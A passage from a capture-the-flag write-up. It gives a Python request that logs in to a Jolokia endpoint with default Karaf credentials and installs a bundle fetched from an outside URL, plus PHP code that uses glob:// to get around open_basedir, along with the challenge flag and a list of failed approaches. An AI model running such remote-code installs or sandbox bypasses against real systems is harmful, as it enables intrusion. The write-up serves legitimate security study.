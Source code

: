 ```python
#!/usr/bin/env python3

import requests
from requests.auth import HTTPBasicAuth
s =requests.session()
auth = HTTPBasicAuth('karaf', 'karaf')
json = {
    'type': 'EXEC',
    "mbean" : "org.apache.karaf:name=root,type=bundle",
    "operation": "install(java.lang.String, boolean)",
    "arguments" : ['http://example.com/helloworld-1.0.0.jar', True]
}                                                                                                                                                  
r = s.post('http://111.186.63.207:31337/jolokia', auth=auth, json=json)
```

The flag is `flag{DOYOULOVEJOLOKIA?ILOVEITVERYMUCH}`.


#### Failed Attempts

- jetty 9.3.24 CVE: Unfortunately [most of the Jetty CVEs](https://github.com/eclipse/jetty.project/blob/9b7afd8a0341f4712031abd322ab8669f07f5c5b/jetty-documentation/src/main/asciidoc/reference/troubleshooting/security-reports.adoc) are fixed in 9.3.24.
- [Karaf CVE](https://karaf.apache.org/security/) and the [zip-slip CVE](https://nvd.nist.gov/vuln/detail/CVE-2019-0191): but we have to deploy our application first!
- Karaf webconsole: The default port `8081` is not opened. I think the webconsole is not enabled.
- Download `WEB-INF/web.xml`: Jetty [protects the path](https://github.com/eclipse/jetty.project/blob/jetty-9.4.x/jetty-server/src/main/java/org/eclipse/jetty/server/handler/ContextHandler.java#L1468-L1492) pretty well. I tried to fuzz it but failed. It also considers the [URL parameters](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) like `/foo;bar=b/bazz`. It's very robust.


### Wallbreaker Easy

#### Solution 1: Bypass open_basedir

- `phpinfo()`
    - `FPM/FastCGI`
    - `disable_functions`: `pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail`

- We can use `glob` to bypass `open_basedir`
    - only listing directory/file name
    - we can't read it.

```php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/php/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
echo 1234;
$it = new DirectoryIterator("glob:///v??/run/php/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}
```
